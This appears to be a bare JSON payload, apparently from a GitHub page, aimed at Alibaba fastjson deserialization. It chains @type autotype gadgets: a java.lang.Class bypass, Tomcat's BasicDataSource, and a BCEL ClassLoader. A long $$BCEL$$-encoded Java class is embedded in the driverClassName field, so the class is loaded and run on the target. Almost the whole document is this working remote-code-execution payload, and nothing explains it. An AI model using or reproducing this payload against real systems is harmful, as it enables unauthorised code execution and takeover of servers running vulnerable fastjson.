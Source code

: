 ```json
    "xx":
    {
        "@type" : "java.lang.Class",
        "val"   : "org.apache.tomcat.dbcp.dbcp2.BasicDataSource"
    },
    "x" : {
        "name": {
            "@type" : "java.lang.Class",
            "val"   : "com.sun.org.apache.bcel.internal.util.ClassLoader"
        },
        {
            "@type":"com.alibaba.fastjson.JSONObject",
            "c": {
                "@type":"org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
                "driverClassLoader": {
                    "@type" : "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },
                "driverClassName":"$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$8dV$cb$5b$TW$U$ff$5dH27$c3$m$g$40$Z$d1$wX5$a0$q$7d$d8V$81Zi$c4b$F$b4F$a5$f8j$t$c3$85$MLf$e2$cc$E$b1$ef$f7$c3$be$ec$a6$df$d7u$X$ae$ddD$bf$f6$d3$af$eb$$$ba$ea$b6$ab$ae$ba$ea$7fP$7bnf$C$89$d0$afeq$ee$bd$e7$fe$ce$ebw$ce$9d$f0$cb$df$3f$3e$Ap$I$df$aaHbX$c5$IF$a5x$9e$e3$a8$8a$Xp$8ccL$c1$8b$w$U$e4$U$iW1$8e$T$i$_qLp$9c$e4x$99$e3$94$bc$9b$e4$98$e2$98VpZ$o$cep$bc$c2qVE$k$e7Tt$e2$3c$c7$F$b9$cep$bc$ca1$cbqQ$G$bb$c4qY$c1$V$VW$f1$9a$U$af$ab0PP$b1$h$s$c7$9c$5c$85$U$f3$i$L$iE$F$96$82E$86$c4$a8$e5X$c1Q$86$d6$f4$c0$F$86X$ce$9d$T$M$j$93$96$p$a6$x$a5$82$f0$ce$Z$F$9b4$7c$d4$b4$pd$7b$3e0$cc$a5$v$a3$5c$bb$a2j$U$yQ$z$94$ac$C$9b$fc2$a8y$b7$e2$99$e2$84$r$z$3b$f2e$cfr$W$c6$cd$a2$9bY4$96$N$N$H1$a4$a0$a4$c1$81$ab$a1$8ck$M$a3$ae$b7$90$f1k$b8y$cf$u$89$eb$ae$b7$94$b9$$$K$Z$d3u$C$b1$Sd$3cq$ad$o$fc$ms6$5cs$a1z$c2$b5$e7$84$a7$c0$d3$e0$p$60$e8Z$QA$84$Y$L$C$cf$wT$C$e1S$G2l$d66$9c$85l$ce6$7c_C$F$cb$M$9b$d7$d4$a7$L$8b$c2$M$a8$O$N$d7$b1$c2p$ec$ff$e6$93$X$de$b2$bda$d0$b6Z$$$7e$d9u$7c$oA$5d$cb$8ca$a7$M$bc$92$f1C$db5$lup$92$c03$9e$V$I$aa$eb$86$ccto$b3A1$I$ca$99$J$S$cd$d1C$c3$Ja$Q$tM$d5$e5$DY$88$867$f0$s$f5$d9$y$cd1$u$ae$9fq$a80$Foix$h$efhx$X$ef$d1$e5$cc$c9i$N$ef$e3$D$86$96$acI$b0l$c1r$b2$7e$91$8eC$a6$86$P$f1$R$e9$q$z$81$ed0l$a9$85$a8$E$96$9d$cd$9b$86$e3$c8V$7c$ac$e1$T$7c$aa$e13$7c$ae$e0$a6$86$_$f0$a5l$f8W$e4$e1$f2$98$86$af$f1$8d$86$5b2T$7c$de$aeH$c7q$d3ve$d1$9dk$f9$8e$af$98$a2$iX$$$85$e85$ddRv$de$f0$83E$dfu$b2$cb$V$8a$b4$3aM$M$3dk6$9e$98$b7$a9$85$d9$v$R$U$5d$w$b0$f3$d2$e4$a3$E$8c4$91r$ae$e8$RS4$cdf$c5$f3$84$T$d4$cf$5d$e9$81$c9GQd$d9M$d4FSW$9b$a1I7$a4Yo$827$5cI$9b$N$_$a8M6mj$gjmz$7d$9e$eb$3c$8e$84$ad$ad$d7vl$D$9bK$ebl$g$bd4$b3C$ee$S$96$b3$ec$$$R$edG$g$7d$85$cf$a0$c9W$a4$gX$af$a2$feSN$c7$85i$h$9e$98$ab$e7$d6$ee$8b$60$cc4$85$ef$5b$b5$efF$y$7dQ$7eW$g$a7$f1$86$l$88R$f8$40$cexnYx$c1$N$86$7d$ff$c1$c3j$L$db$C$f7$7c$99$8cr$86$9c$9a$e6n$ad$82$b8$7c$a7$86$e5$Q$c1$bd$8d$8esE$c3$cb$cb$d7$e2$98bd$e0$o$Be$5b$c3Nt$ae$ef$e4H$7d$c6k$aa$b3$V$t$b0J$f5$c7$5c$3ft7$99Ej2$8c$89$VA$_$u$9d$de$60$Q$h$z$88$C$c9Vs$a8H$c9$b0$89B$9dt$ca$95$80$y$85A$acm$ab$87$b3$dcl$c3$F$99$f7$a47$bc$90$eck$V_$i$X$b6U$92$df$U$86$fd$ff$ceu$e3c$96E84$ef$e8$c3$B$fa$7d$91$7f$z$60$f2$ebM2C$a7$9d$b42Z$e3$83w$c1$ee$d0$86$nK2QS$s$c0$f1D$j$da$d2O$O$da$Ip$f5$kZ$aahM$c5$aa$88$9f$gL$rZ$efC$a9$82O$k$60$b4KV$a1NE$80$b6$Q$a0$d5$B$83$a9$f6h$3b$7d$e0$60$84$j$8e$N$adn$e3$91$dd$s$b2Ku$84$d0$cd$c3$89H$bbEjS1$d2$ce$b6$a6$3a$f3$f2J$d1$VJ$a2KO$84R$8f$d5$3dq$5d$d1$e3$EM$S$b4$9b$a0$ea$cf$e8$iN$s$ee$93TS$5b$efa$5b$V$3d$v$bd$8a$ed$df$p$a5$ab$S$a3$ab$b1To$fe6$3a$e4qG$ed$b8$93d$5cO$e6u$5e$c5c$a9$5d$8d$91u$k$3a$ff$J$bbg$ef$a1OW$ab$e8$afb$cf$5d$3c$9e$da$5b$c5$be$w$f6$cb$a03$a1e$3a$aaD$e7Qz$91$7e$60$9d$fe6b$a7$eeH$e6$d9$y$bb$8cAj$95$ec$85$83$5e$92IhP$b1$8d$3a$d0G$bb$n$b4$e306$n$87$OLc3f$b1$F$$R$b8I$ffR$dcB$X$beC7$7e$c0VP$a9x$80$k$fc$K$j$bfa$3b$7e$c7$O$fcAM$ff$T$bb$f0$Xv$b3$B$f4$b11$f4$b3Y$ec$a5$88$7b$d8$V$ec$c7$93$U$edY$c4$k$S$b8M$c1S$K$9eVp$a8$$$c3M$b8$7fF$n$i$da$k$c2$93s$a3$e099$3d$87k$pv$e4$l$3eQL$40E$J$A$A"
            }
        } : "xxx"
    }
}
```
